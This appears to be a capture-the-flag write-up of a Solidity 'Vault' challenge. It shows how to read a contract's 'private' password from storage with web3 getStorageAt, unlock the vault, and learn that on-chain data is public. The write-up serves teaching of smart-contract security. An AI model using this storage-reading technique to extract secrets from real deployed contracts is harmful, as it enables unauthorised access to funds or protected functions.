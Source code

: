 # Vault

## Challenge Description

Unlock the vault to pass the level!

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

## Challenge Solution Walkthrough

In this challenge, the goal is to unlock a contract by accessing the `password` variable, even though it is marked as `private`. In Solidity, marking a variable as `private` does not prevent others from accessing its value using low-level functions like `getStorageAt()`.

To access the `password` variable, we can use the `web3.eth.getStorageAt()` function in the console. This function allows us to read the value stored at a specific storage slot in the contract's memory.

To retrieve the `password` variable, we run the following code in the console:

```javascript
> const password = await web3.eth.getStorageAt(contract.address, 1)
> password
< '0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
```

The resulting value is a hexadecimal string representing the `password`. We can then use this value to unlock the vault by calling the `unlock()` function with the obtained `password`:

```javascript
> await contract.unlock(password)
```

To verify that we have successfully unlocked the vault, we can check the value of the `locked()` function:

```javascript
> (await contract.locked()) == false
< true
```

If the returned value is `true`, it means we have successfully unlocked the vault.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
